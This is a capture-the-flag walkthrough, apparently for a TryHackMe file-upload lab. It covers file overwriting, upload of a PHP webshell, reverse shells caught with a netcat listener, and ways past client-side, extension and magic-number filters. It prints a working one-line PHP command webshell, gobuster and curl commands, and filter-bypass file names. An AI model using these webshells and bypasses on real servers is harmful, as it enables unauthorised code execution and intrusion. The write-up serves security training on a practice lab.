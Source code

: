> First task is to configure `/etc/hosts` file of device by adding this line :
> `10.10.2.79    overwrite.uploadvulns.thm shell.uploadvulns.thm java.uploadvulns.thm annex.uploadvulns.thm magic.uploadvulns.thm jewel.uploadvulns.thm demo.uploadvulns.thm`
> it will be different for every instance, change the IP & also make sure there are no duplicate entries for different IPs and make sure to remove that line after terminating instance.

1. **Overwriting Existing Files**
	when in website we can upload files, this vuln comes into picture.
	First we analyze source code by inspecting and see what image is already there on website for example the image on website may be sourced from `/assets/mountains.jpg` and this will be shown in source code, so we want to overwrite this `mountains.jpg` by uploading a new file with same name `mountains.jpg` and now contents will be overwritten.
---
2. **Remote Code Execution (RCE)**

- First run a `gobuster` scan to see valid endpoints :
	`gobuster dir -u http://shell.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
	
- now we see that `/resources` and `/assets` gives us a hit and resources contains all the uploaded files and since we know that the backend uses `php`, we can make use of a `php script` to get a reverse shell and perform `RCE`.
- first we will upload simple webshell with a script called `webshell.php` :
```
<?php  
    echo system($_GET["cmd"]);  
?>
```
>This code takes a GET parameter and executes it as a system command. It then echoes the output out to the screen.

- now we navigate to `URL/resources/webshell.php?cmd=id;whoami;ls` and run commands like this and the contents are echoed on the screen
- Now coming to reverse shells, we first download the `php-reverse-shell.php` from [pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)  and do `sudo nano php-reverse-shell.php` and change the IP on line `49` to the attackbox IP which over here is my local kali machine IP using `openvpn`
	`$ip = '127.0.0.1';  // CHANGE THIS`
  but keep the port number unchanged which is `1234`
- now on another terminal tab run `nc -lvnp 1234` and deploy a netcat listener and now navigate to `URL/resources/php-reverse-shell.php` and now the website kinda hangs but when we do go to our netcat listener, we now have attained `RCE` so now do `cd /var/www` and `cat flag.txt` 
---
3. **Bypassing Client Side Filtering**

- such filters are put in place using javascript code, so we can just disable javascript in `mozilla` by searching `about:config` and `accept risk` and `javascript enabled:false` .
- one more way is to upload the file directly using `curl` 
> `curl -X POST -F "submit:<value>" -F "<file-parameter>:@<path-to-file>" <site>`
> To use this method you would first aim to intercept a successful upload (using Burpsuite or the browser console) to see the parameters being used in the upload, which can then be slotted into the above command.

- on encountering the website, we do `inspect` and view `source code` and stumble upon `filter.js` where we see the following code 
```
if (file.type != "image/png")
		{
			upload.value = "";
			uploadMsg.style = "display:none;";
			error();
		} 
```
- so we will use the same `reverse shell script` from [pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) but to bypass the filter we will rename it as `reverse.png` according to the filter script and then we capture the `POST` request after clicking `upload` and change the `file name` to `reverse.php`.
- now new terminal open netcat listener on port `1234` as `nc -lvnp 1234` with the IP set to our kali machine in the `reverse.php` script and go to `URL/images/reverse.php` , the site will hang but we get a reverse shell on our terminal and do `cat /var/www/flag.txt` 
---
4. **Bypassing Server Side Filtering**
	Here we cant see the source code so we need to keep poking the backend and see what is restricted by filter and finally craft a payload that escapes all the filters. It does it using the file extensions.

- let's say there's a script that blacklists `.php` & `.phtml` files by checking the last `.` (period) and splitting, from wikipedia there's actually a variety of other php extensions that may bypass the filter, they are :
	`.php3`, `.php4`,`.php5`,`.php7`,`.phps`,`.php-s`,`.pht` and `.phar`  
	here `/privacy` is the endpoint after doing `gobuster` where files are stored and it wont accept `.php` so we try all the above ones and none of them really work except `.phar` (but this is knowing that .html and .php is blacklisted assuming we do have source code).

- now coming to actual part when we dont have source code, we play around and try uploading different files and it accepts `.jpg` and image like extensions but will filter out `.php` so what we do is rename it to `reverse.jpg.php` cuz it filters based on the first `period (.)` that it encounters and it thinks its a jpg cuz `.jpg is present in the name`
- so mixing both the above points we upload file named `reverse.jpg.php5` and it will accept the file type and now open netcat listener and get reverse shell and `cat /var/www/flag.txt`
---
5. **Bypassing Server Side Filtering : Magic Numbers**
	magic number is a string of hex digits of a file, always usually the first few bytes of the file 
	this bypass is usually very effective for `php` based web servers and not usually for other kind of servers.
	insert bytes `FF D8 FF D8` in the beginning of the `reverse.php` script and it gets spoofed as `jpg` and the website will allow it to be uploaded.
	>`/graphics` contains the uploaded files (after doing gobuster)
	>access by doing `URL/graphics/reverse.php`

	magic number can be of any type need not necessarily be `jpg` so look up `Gary Kessler tables` for magic numbers.
---
### Final Challenge

- `gobuster dir -u http://jewel.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
	this gives endpoints like `/admin`,`/modules`,`/content`,`/assets`
- by seeing `Wappalyser` we come to know that admin page is using `Node.js` and `express` so here `php reverse shell script` will not work and we need a `Node.js reverse shell script`.
- view source code and we get `upload.js` : (major part of code that is critical for us)
```
//Check File Size
			if (event.target.result.length > 50 * 8 * 1024){
				setResponseMsg("File too big", "red");			
				return;
			}
			//Check Magic Number
			if (atob(event.target.result.split(",")[1]).slice(0,3) != "ÿØÿ"){
				setResponseMsg("Invalid file format", "red");
				return;	
			}
			//Check File Extension
			const extension = fileBox.name.split(".")[1].toLowerCase();
			if (extension != "jpg" && extension != "jpeg"){
				setResponseMsg("Invalid file format", "red");
				return;
			}
```
- now run another gobuster on `/content` for jpg files using wordlist given in task files
`gobuster dir -u http://jewel.uploadvulns.thm/content/ -w wordlist.txt -t 250 -x jpg`
we get `/ABH.jpg`,`/LKQ.jpg`,`/SAD.jpg`,`/AHN.jpg`,`UAD.jpg` , any new 3 letter image not matching the previous gobuster scan that will be the name of file we uploaded.
- do `ctrl+F5` to clear cache and then intercept the `upload.js` and `do intercept` -> `edit response` and `comment` ou the magic number filter and then forward and turn off intercept.
- rename the `node.js reverse shell script` to `.jpg` and upload it, it will say successful, then again run gobuster scan and see which 3 letter jpg is different and go to `/admin` and activate that module by doing `../content/XYZ.jpg` where `XYZ` is the name of the shell and then on our netcat listener we do `cat /var/www/flag.txt` and we get the flag.
---

